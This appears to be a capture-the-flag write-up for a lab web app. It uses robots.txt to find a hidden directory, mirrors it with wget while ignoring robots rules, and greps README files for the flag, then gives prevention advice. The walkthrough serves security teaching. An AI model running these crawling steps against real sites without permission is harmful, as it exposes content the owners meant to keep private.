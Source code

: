 # Description

Visting the robots.txt route give us the follwing output

```html
User-agent: *
Disallow: /whatever
Disallow: /.hidden
```

If we visit the /.hidden route we will get a recursive directories containing a file named README

The thing here is to loop through all directories and print all **README** files till we get the flag.

# Attack 

To do that we need to download the whole directory offline using **wget**

```bash
[~/goinfre/dd]$ wget -r -npH --cut-dirs=1 -R "index.html*" -e "robots=off" "http://10.14.59.83/.hidden/"
[~/goinfre/dd]$ ls
amcbevgondgcrloowluziypjdh  jfiombdhvlwxrkmawgoruhbarp  rlnoyduccpqxkvcfiqpdikfpvx
bnqupesbgvhbcwqhcuynjolwkm  kpibbgxjqnvrrcpczovjbvijmz  sdnfntbyirzllbpctnnoruyjjc
ceicqljdddshxvnvdqzzjgddht  ldtafmsxvvydthtgflzhadiozs  trwjgrgmfnzarxiiwvwalyvanm
doxelitrqvhegnhlhrkdgfizgj  mrucagbgcenowkjrlmmugvztuh  urhkbrmupxbgdnntopklxskvom
eipmnwhetmpbhiuesykfhxmyhr  ntyrhxjbtndcpjevzurlekwsxt  viphietzoechsxwqacvpsodhaq
ffpbexkomzbigheuwhbhbfzzrg  oasstobmotwnezhscjjopenjxy  whtccjokayshttvxycsvykxcfm
ghouhyooppsmaizbmjhtncsvfz  ppjxigqiakcrmqfhotnncfqnqg  xuwrcwjjrmndczfcrmwmhvkjnh
hwlayeghtcotqdigxuigvjufqn  qcwtnvtdfslnkvqvzhjsmsghfw  yjxemfsgdlkbvvtjiylhdoaqkn
isufpcgmngmrotmrjfjonpmkxu  README                      zzfzjvjsupgzinctxeqtzzdzll
```



Now we will use find command to find all README files and print it's content, it my take a while

```bash
[~/goinfre/dd]$ find . -type f -name "README" -exec cat {} \;|grep flag                                 
Hey, here is your flag : d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
[~/goinfre/dd]$ 
```

# Prevention

- **robots.txt:** While robots.txt is used to communicate with web crawlers, it's not a secure method for hiding sensitive content. Avoid placing sensitive information in locations mentioned in robots.txt.

- **Directory Listing:** Disable directory listing on your web server to prevent the automatic display of directory contents. This can be configured in the server's settings.

- **Access Control:** Implement proper access controls to restrict access to sensitive directories and files. Use authentication and authorization mechanisms to ensure that only authorized users can access them.

- **Sensitive Information:** Avoid placing sensitive information in locations accessible from the web. Sensitive data should be stored securely, away from the webroot.
